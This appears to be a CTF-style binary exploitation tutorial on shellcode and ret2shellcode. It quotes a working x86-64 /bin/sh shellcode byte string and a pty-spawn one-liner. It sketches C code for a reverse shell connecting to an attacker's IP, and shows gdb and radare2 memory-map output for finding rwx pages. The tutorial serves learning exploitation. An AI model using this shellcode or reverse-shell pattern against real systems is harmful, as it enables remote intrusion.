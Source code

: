 # Shellcode

### Example

A very good resource for finding shellcode is shell-storm: [http://shell-storm.org/shellcode/](http://shell-storm.org/shellcode/)

I have chosen a Linux x86-64 shellcode which executes /bin/sh

> [http://shell-storm.org/shellcode/files/shellcode-806.php](http://shell-storm.org/shellcode/files/shellcode-806.php)

```python
\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05
```

### What is it?

Shellcode is essentially our own compiled assembly, which can gain us a "shell". This "shell" is essentially a terminal, in which we can execute our own commands from, such as `ls`, `whoami`, `python -c 'import pty;pty.spawn("/bin/sh")'`, `sudo -l` etc. The way that this is done is by many ways. One way is to create a socket which will listen on the attackers ip and port, and then send a `dup2()` command to bind the attacker's socket to the program's input, output, error.

```c
// Open a TCP connection to an attacker controlled machine or server
sock = socket(AF_INET, SOCK_STREAM);
connect(sock, /* Attacker's ip and port */);

// bind socket to program's stdin/out/err
dup2(sock, 0); // stdin
dup2(sock, 1); // stdout
dup2(sock, 2); // stderr
```

We can compile this, send it over to the binary, and bam, we have a shell!!

However, there is a slight caveat to this. Where are we going to store our shellcode? How can we get it to execute? We can't execute things from the stack, or can we?

This is where we need to have a look at the permissions that certain pages have in the binary. We can get our shellcode to be stored somewhere, or written to, and then executed. For this to happen, we must have a page, or section of the binary which is mapped, to have a `rwx` permission. This'll allow us to `Read, write, execute` any code inside that page. We can view what pages have what permissions by using gdb or radare2:

{% tabs %}
{% tab title="gdb" %}
```c
$ gdb ./file // use --nx if you have an extension for gdb
(gdb) r
^c
(gdb) p (int) getpid()
(gdb) shell cat /proc/pid/maps
```

```java
euan@euanb26  eXit  gdb --nx ./eXit 
GNU gdb (Ubuntu 9.1-0ubuntu1) 9.1
...
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./eXit...
(No debugging symbols found in ./eXit)
(gdb) r
Starting program: /home/euan/CTF/r2con/easy/eXit/eXit 
--- eXit ---

It's time to leave the Land of Ecodelia...
Press Enter to continue
^C
Program received signal SIGINT, Interrupt.
0x00007ffff7ed1fb2 in __GI___libc_read (fd=0, buf=0x5555555596b0, nbytes=1024)
    at ../sysdeps/unix/sysv/linux/read.c:26
26	../sysdeps/unix/sysv/linux/read.c: No such file or directory.
(gdb) p getpid()
'getpid' has unknown return type; cast the call to its declared return type
(gdb) print (int) getpid()
$1 = 7888
(gdb) shell cat /proc/7888/maps
555555554000-555555555000 r--p 00000000 08:05 25165869                   /home/euan/CTF/r2con/easy/eXit/eXit
555555555000-555555556000 r-xp 00001000 08:05 25165869                   /home/euan/CTF/r2con/easy/eXit/eXit
555555556000-555555557000 r--p 00002000 08:05 25165869                   /home/euan/CTF/r2con/easy/eXit/eXit
555555557000-555555558000 r--p 00002000 08:05 25165869                   /home/euan/CTF/r2con/easy/eXit/eXit
555555558000-555555559000 rw-p 00003000 08:05 25165869                   /home/euan/CTF/r2con/easy/eXit/eXit
555555559000-55555557a000 rw-p 00000000 00:00 0                          [heap]
7ffff7dc1000-7ffff7de6000 r--p 00000000 08:05 28318069                   /usr/lib/x86_64-linux-gnu/libc-2.31.so
7ffff7de6000-7ffff7f5e000 r-xp 00025000 08:05 28318069                   /usr/lib/x86_64-linux-gnu/libc-2.31.so
7ffff7f5e000-7ffff7fa8000 r--p 0019d000 08:05 28318069                   /usr/lib/x86_64-linux-gnu/libc-2.31.so
7ffff7fa8000-7ffff7fa9000 ---p 001e7000 08:05 28318069                   /usr/lib/x86_64-linux-gnu/libc-2.31.so
7ffff7fa9000-7ffff7fac000 r--p 001e7000 08:05 28318069                   /usr/lib/x86_64-linux-gnu/libc-2.31.so
7ffff7fac000-7ffff7faf000 rw-p 001ea000 08:05 28318069                   /usr/lib/x86_64-linux-gnu/libc-2.31.so
7ffff7faf000-7ffff7fb5000 rw-p 00000000 00:00 0 
7ffff7fcb000-7ffff7fce000 r--p 00000000 00:00 0                          [vvar]
7ffff7fce000-7ffff7fcf000 r-xp 00000000 00:00 0                          [vdso]
7ffff7fcf000-7ffff7fd0000 r--p 00000000 08:05 28317854                   /usr/lib/x86_64-linux-gnu/ld-2.31.so
7ffff7fd0000-7ffff7ff3000 r-xp 00001000 08:05 28317854                   /usr/lib/x86_64-linux-gnu/ld-2.31.so
7ffff7ff3000-7ffff7ffb000 r--p 00024000 08:05 28317854                   /usr/lib/x86_64-linux-gnu/ld-2.31.so
7ffff7ffc000-7ffff7ffd000 r--p 0002c000 08:05 28317854                   /usr/lib/x86_64-linux-gnu/ld-2.31.so
7ffff7ffd000-7ffff7ffe000 rw-p 0002d000 08:05 28317854                   /usr/lib/x86_64-linux-gnu/ld-2.31.so
7ffff7ffe000-7ffff7fff000 rw-p 00000000 00:00 0 
7ffffffde000-7ffffffff000 rw-p 00000000 00:00 0                          [stack]
ffffffffff600000-ffffffffff601000 --xp 00000000 00:00 0                  [vsyscall]
(gdb) 


```
{% endtab %}

{% tab title="gdb-peda / gdb-gef" %}
```c
$ gdb ./file
gdb-peda$ r
^c
gdb-peda$ vmmap
```

```java
euan@euanb26  eXit  gdb ./eXit
GNU gdb (Ubuntu 9.1-0ubuntu1) 9.1
...
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./eXit...
(No debugging symbols found in ./eXit)
gdb-peda$ r
Starting program: /home/euan/CTF/r2con/easy/eXit/eXit 
--- eXit ---

It's time to leave the Land of Ecodelia...
Press Enter to continue
^C
Program received signal SIGINT, Interrupt.
[----------------------------------registers-----------------------------------]
...
26	../sysdeps/unix/sysv/linux/read.c: No such file or directory.
gdb-peda$ vmmap
Start              End                Perm	Name
0x0000555555554000 0x0000555555555000 r--p	/home/euan/CTF/r2con/easy/eXit/eXit
0x0000555555555000 0x0000555555556000 r-xp	/home/euan/CTF/r2con/easy/eXit/eXit
0x0000555555556000 0x0000555555557000 r--p	/home/euan/CTF/r2con/easy/eXit/eXit
0x0000555555557000 0x0000555555558000 r--p	/home/euan/CTF/r2con/easy/eXit/eXit
0x0000555555558000 0x0000555555559000 rw-p	/home/euan/CTF/r2con/easy/eXit/eXit
0x0000555555559000 0x000055555557a000 rw-p	[heap]
0x00007ffff7dc1000 0x00007ffff7de6000 r--p	/usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7de6000 0x00007ffff7f5e000 r-xp	/usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7f5e000 0x00007ffff7fa8000 r--p	/usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa8000 0x00007ffff7fa9000 ---p	/usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa9000 0x00007ffff7fac000 r--p	/usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fac000 0x00007ffff7faf000 rw-p	/usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7faf000 0x00007ffff7fb5000 rw-p	mapped
0x00007ffff7fcb000 0x00007ffff7fce000 r--p	[vvar]
0x00007ffff7fce000 0x00007ffff7fcf000 r-xp	[vdso]
0x00007ffff7fcf000 0x00007ffff7fd0000 r--p	/usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7fd0000 0x00007ffff7ff3000 r-xp	/usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ff3000 0x00007ffff7ffb000 r--p	/usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffc000 0x00007ffff7ffd000 r--p	/usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffd000 0x00007ffff7ffe000 rw-p	/usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffe000 0x00007ffff7fff000 rw-p	mapped
0x00007ffffffde000 0x00007ffffffff000 rw-p	[stack]
0xffffffffff600000 0xffffffffff601000 --xp	[vsyscall]
gdb-peda$ 


```
{% endtab %}

{% tab title="radare2" %}
```c
$ r2 -dA ./file
[0x7f92d71ee100]> dcu entry0
[0x55b76f81b1a0]> dm
```

```java
euan@euanb26  eXit  r2 -dA ./eXit
Process with PID 7600 started...
= attach 7600 7600
bin.baddr 0x55b76f81a000
Using 0x55b76f81a000
asm.bits 64
[Cannot find function at 0x55b76f81b1a0. and entry0 (aa)
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[TOFIX: aaft can't run in debugger mode.ions (aaft)
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[0x7f92d71ee100]> dcu entry0
Continue until 0x55b76f81b1a0 using 1 bpsize
hit breakpoint at: 55b76f81b1a0
[0x55b76f81b1a0]> dm
0x000055b76f81a000 - 0x000055b76f81b000 - usr     4K s r-- /home/euan/CTF/r2con/easy/eXit/eXit /home/euan/CTF/r2con/easy/eXit/eXit ; sym.imp.__cxa_finalize
0x000055b76f81b000 - 0x000055b76f81c000 * usr     4K s r-x /home/euan/CTF/r2con/easy/eXit/eXit /home/euan/CTF/r2con/easy/eXit/eXit ; map.home_euan_CTF_r2con_easy_eXit_eXit.r_x
0x000055b76f81c000 - 0x000055b76f81d000 - usr     4K s r-- /home/euan/CTF/r2con/easy/eXit/eXit /home/euan/CTF/r2con/easy/eXit/eXit ; map.home_euan_CTF_r2con_easy_eXit_eXit.r
0x000055b76f81d000 - 0x000055b76f81e000 - usr     4K s r-- /home/euan/CTF/r2con/easy/eXit/eXit /home/euan/CTF/r2con/easy/eXit/eXit ; map.home_euan_CTF_r2con_easy_eXit_eXit.rw
0x000055b76f81e000 - 0x000055b76f81f000 - usr     4K s rw- /home/euan/CTF/r2con/easy/eXit/eXit /home/euan/CTF/r2con/easy/eXit/eXit ; section..data
0x00007f92d6fe3000 - 0x00007f92d7008000 - usr   148K s r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f92d7008000 - 0x00007f92d7180000 - usr   1.5M s r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f92d7180000 - 0x00007f92d71ca000 - usr   296K s r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f92d71ca000 - 0x00007f92d71cb000 - usr     4K s --- /usr/lib/x86_64-linux-gnu/libc-2.31.so /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f92d71cb000 - 0x00007f92d71ce000 - usr    12K s r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f92d71ce000 - 0x00007f92d71d1000 - usr    12K s rw- /usr/lib/x86_64-linux-gnu/libc-2.31.so /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f92d71d1000 - 0x00007f92d71d7000 - usr    24K s rw- unk0 unk0
0x00007f92d71ed000 - 0x00007f92d71ee000 - usr     4K s r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007f92d71ee000 - 0x00007f92d7211000 - usr   140K s r-x /usr/lib/x86_64-linux-gnu/ld-2.31.so /usr/lib/x86_64-linux-gnu/ld-2.31.so ; map.usr_lib_x86_64_linux_gnu_ld_2.31.so.r_x
0x00007f92d7211000 - 0x00007f92d7219000 - usr    32K s r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so /usr/lib/x86_64-linux-gnu/ld-2.31.so ; map.usr_lib_x86_64_linux_gnu_ld_2.31.so.r
0x00007f92d721a000 - 0x00007f92d721b000 - usr     4K s r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so /usr/lib/x86_64-linux-gnu/ld-2.31.so ; map.usr_lib_x86_64_linux_gnu_ld_2.31.so.rw
0x00007f92d721b000 - 0x00007f92d721c000 - usr     4K s rw- /usr/lib/x86_64-linux-gnu/ld-2.31.so /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007f92d721c000 - 0x00007f92d721d000 - usr     4K s rw- unk1 unk1 ; map.unk0.rw
0x00007fffae0ae000 - 0x00007fffae0cf000 - usr   132K s rw- [stack] [stack] ; map.stack_.rw
0x00007fffae0f4000 - 0x00007fffae0f7000 - usr    12K s r-- [vvar] [vvar] ; map.vvar_.r
0x00007fffae0f7000 - 0x00007fffae0f8000 - usr     4K s r-x [vdso] [vdso] ; map.vdso_.r_x
0xffffffffff600000 - 0xffffffffff601000 - usr     4K s --x [vsyscall] [vsyscall] ; map.vsyscall_.__x
[0x55b76f81b1a0]> 


```
{% endtab %}
{% endtabs %}

Our plan of attack, to perform a _ret2shellcode_ _attack_, __would be to overflow the buffer, enter in an address which points to an area in the `rwx` memory map and add our shellcode there. When we execute this, it should give us a shell back!!

